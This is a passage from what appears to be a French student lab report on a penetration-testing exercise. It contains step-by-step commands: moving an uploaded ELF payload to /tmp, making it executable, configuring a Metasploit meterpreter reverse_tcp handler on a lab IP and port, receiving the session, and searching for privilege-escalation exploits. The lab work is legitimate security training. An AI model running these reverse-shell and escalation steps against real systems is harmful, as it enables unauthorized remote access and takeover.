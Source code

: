 On va déplacer ce fichier dans le dossier tmp pour pouvoir le manipuler.

`mv /var/www/html/igmseklhgmrjmtherij2145236/upload/escalate_payload.elf /tmp`

Puis on accorde des droits d'execution `chmod +x escalate_payload.elf`

Dans un terminal metaspoit (msfconsole), on va utiliser le module multi/handler qui permet de traiter les connexions de reverse shell. `use multi/handler`

On définit maintenant le payload que l'on souhaite utiliser `set payload linux/x86/meterpreter/reverse_tcp`

En affichant les options, on constate que LHOST (qui spécifie l'IP de la machine attaquante, donc kali) n'est pas définie. On va donc la définir avec l'IP de la machine kali (`set lhost 10.0.2.4`).

![1733764453489](image/rapport-tp5/1733764453489.png)

On va également redéfinir LPORT (qui par défaut n'a pas la valeur que je souhaite) pour faire correspondre le numéro de port avec celui définit lors de la génération du payload (`set lport 4321`).

On execute la commande `run`, msfconsole se met à écouter sur le port 4321 de la machine.

Sur la machine cible, on va maintenant executer le payload. Metasploit reçoit le payload et nous indique qu'une session est maintenant ouverte.

![1733766637772](image/rapport-tp5/1733766637772.png)

On utillise maintenant la commande `search suggester` qui analyse la configuration et les versions des logiciels du système cible pour recommander des exploits potentiellement utilisables.

![1733766628141](image/rapport-tp5/1733766628141.png)
